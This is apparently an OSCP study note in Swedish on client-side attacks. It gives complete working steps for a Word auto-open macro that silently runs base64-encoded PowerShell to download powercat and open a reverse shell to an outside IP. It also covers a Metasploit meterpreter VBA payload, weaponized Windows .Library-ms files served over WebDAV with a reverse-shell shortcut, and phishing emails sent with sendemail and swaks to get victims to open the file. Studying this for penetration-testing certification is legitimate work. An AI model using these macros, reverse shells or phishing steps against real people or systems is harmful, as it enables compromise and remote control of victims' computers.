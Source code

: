 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/e-client-side/2-client-side-attacks/"}
---
```


### Macros:
- Välj "Word 97-2003 Document (.doc)"
- Funkar inte med .docx
- Gå till "View" -> Macros -> Skriv ett namn -> Välj dokumentet under "Macros in"
- Lägg till AutoOpen() och Document_Open()

#### Macro Reverse Shell
1. Anpassa revshell:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2. Encoda till base64:
```
www.base64encode.org

#Välj 'UTF-16LE' under 'Destination Character Set'
```
3. Skapa strängar att binda ihop i macrot m.h.a. python:
```python
str = "powershell.exe -nop -w hidden -e <bae64-encoded-string>"

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Sätt ihop strängarna med resterande delar av macrot:
```python
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	Str = Str + "ALgAxADYAOAAuADEAMQA5AC4AMgAvAHAAbwB3AGUAcgBjAGEAd"
	Str = Str + "AAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwA"
	Str = Str + "gADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADgAMQAgAC0AcAAgA"
	Str = Str + "DQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsAA="
	Str = Str + "="

    CreateObject("Wscript.Shell").Run Str
End Sub
```
5. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

#### Metasploit Macro:
```
use windows/meterpreter/reverse_https  
set PAYLOAD windows/meterpreter/reverse_https  
set LHOST Your_IP_Address  
set LPORT 443  
set AutoRunScript post/windows/manager/smart_migrate  
generate -f vba
```

-------------
### Windows Library Files
- Skickar en '.Library-ms'-fil till offret
- Filsystemet i windows kopplar sig mot en uppsatt WebDAV innehållandes en '.lnk'-fil
- Svårt att servera lnk-filen direkt till offret då det mest troligt kommer filtreras bort, så därför detta bra alternativ
- Kommer se ut som ett vanligt directory i Windows vilket är legit

#### Instruktioner:
1. Skapa webdav-mapp någonstans:
```bash
mkdir /home/kali/webdav
```
2. Boota upp webdaven:
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
3. Skapa en '.Library-ms'-fil med typ VSCode
4. Fyll filen med XML-kod som gör den mer legit.
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://web-dav-url</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
5. Skapa shortcut-fil på webdaven som pekar mot reverse-shell:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1'); powercat -c 192.168.45.181 -p 4444 -e powershell"
```
![Pasted image 20230706132751.png|550](/img/user/IMAGES/Pasted%20image%2020230706132751.png)
6. Sätt upp python-server med powercat och sätt upp lyssnare:
```bash
cd /usr/share/windows-resources/powercat/
python3 -m http.server 80
nc -lvnp 4444
```

Notes:
- Bild-index -1002 = documents folder icon, -1003 = pictures folder icon
- På grund av att windows ändrar på filen i syfte att optimera kan filen sluta funka efter restart eller liknande.
- Om vill pusha confen till smb:
```bash
cd <web-dav-dir>
smbclient //<client-ip>/share -c 'put <filnamn>.Library-ms'
```
-----------------
#### SendEmail:
```bash
sendemail -f crabfeather@localhost -t dave.wizard@supermagicorg.com -a config.Library-ms -s 192.168.224.199 -m "hello mr, please open file"
```
-----------------
#### Swaks:
```
sudo swaks -t <targetmail1> -t <targetmail2> --from <authmail> --attach @config.Library-ms --server <smtpserver> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
Example:
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```


